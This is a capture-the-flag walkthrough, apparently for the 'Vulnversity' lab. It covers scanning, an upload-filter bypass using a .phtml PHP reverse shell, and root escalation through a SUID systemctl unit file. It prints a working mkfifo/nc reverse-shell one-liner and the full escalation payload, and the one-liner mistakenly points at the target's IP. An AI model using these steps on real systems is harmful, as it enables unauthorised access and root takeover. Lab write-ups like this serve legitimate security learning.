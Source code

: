 Vulnversity
===========

Vulnversity is a nice straightforward CTF that emulates basic know-how of getting access to a system and then escalating your priviledge. Quite enjoyable to say the least, just needs you to understand some underlying code.

Lets start with an nmap scan of the target IP, which will look something like this:

```vim
nmap -sV -Pn -v <TARGET_IP>
```

![Image](images/1.png)

We see that we have 6 ports open, where `http-proxy` and `http` seem interesting. Open the target IP on your browser like this: `<TARGET_IP>:3333`

Next, we can work on a gobuster scan on this webpage, which a command that looks something like this:

```vim
gobuster dir -u http://<TARGET_IP>:3333/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x php,html,txt
```
(Note: You can make this faster by using the `-t` option. Personally, I use `-t 40` but you can go beyond if your PC can take it)

We see that we get the following hits:
```
/images
/index.html
/css
/js
/fonts
/internal
```
Other than the last one, everything else seems pretty standard. Lets check out `/internal` first:

![Image](images/2.png)

Upload forms generally are an attack vector that we can use to use the Unrestricted File Upload exploit (As stated by OWASP)

When you try to upload a file, you will be an "Extension not allowed" error. This means that we have to fuzz this upload form to see which extension can be uploaded. A wordlist you can use for this can be found here: https://github.com/xmendez/wfuzz/blob/master/wordlist/general/extensions_common.txt

A good way to fuzz upload forms, is through BurpSuite, we can capture the upload form packet and use its Intruder mode to bruteforce which extension works. Firstly, Start BurpSuite, make a simple `.txt` file (mine is called `a.txt`) and upload it. Before clicking Submit, switch on Intercept in Proxy mode to capture the packet and then click Submit.

Your Proxy tab should look like this:

![Image](images/3.png)

Right-click and send the packet to Intruder, and add your target to look something like this:

![Image](images/4.png)

Use the wordlist I provided above as the payload and we can start the attack. (Make sure to disable URL encode in the options tab)

Once that is concluded, we can see in the below picture that only `.phtml` gets accepted:

![Image](images/5.png)

.phtml is a file extension that we can use to write PHP code. We can make a reverse shell payload in PHP and try to execute it on the website. You can get a PHP payload from this website and use the .phtml extension on it: https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php (Replace the IP and port in the above script and save it)

We have a reverse shell payload that we can upload to the website, so we can go ahead and upload it, start a listener with the following command:
```vim
nc -lvnp <PORT>
```
and execute the reverse shell file by going to this webpage: `http://<TARGET_IP>:3333/internal/uploads/FILE_YOU_UPLOADED`

On your listener, we can see that we have recieved a reverse shell. I like to use the following command to make my reverse shell a little more readable:
```vim
python -c 'import pty;pty.spawn("/bin/bash")'
```

On typing `ls`, we can see that we are in the `/` directory. From here on, we can explore the home directory, find the user `bill` and the user flag in: `/home/bill/user.txt`

Here on out, we need to escalate our priviledge, I tried `sudo -l` but it asks a sudo password and we don't have that, so I try the next best thing, SUID executables. We can find all the SUID files through the following command:
```vim
find . -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null
```

I then used this website: https://gtfobins.github.io/ to see if I can find any existing SUID vulnerabilities. After looking through the whole list, you find that `systemctl` can be exploited if it has SUID root permission. You can read about it here: https://gtfobins.github.io/gtfobins/systemctl/#suid

```vim
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "id > /tmp/output"
[Install]
WantedBy=multi-user.target' > $TF
/bin/systemctl link $TF
/bin/systemctl enable --now $TF
```

The above code essentially means that we can execute the `id` command and the output will be displayed at `/tmp/output`. Once executed, you can see that the ID is of the root user. This tells us that if we can get a reverse shell from this command, it will be the root reverse shell. I looked for a couple reverse shells and found this one to work the best:

```vim
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <TARGET_IP> PORT >/tmp/f
```

This works best because it is small and doesn't need any quotation marks (They mess up the SUID exploit).

So, your SUID exploit will look like this:

```vim
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <TARGET_IP> PORT >/tmp/f"
[Install]
WantedBy=multi-user.target' > $TF
/bin/systemctl link $TF
/bin/systemctl enable --now $TF
```

Start another listener on a different port using the `nc -lvnp PORT` command and execute the above exploit. When you check on your listener, you will be having a reverse shell. You can find the root flag in: `/root/root.txt`
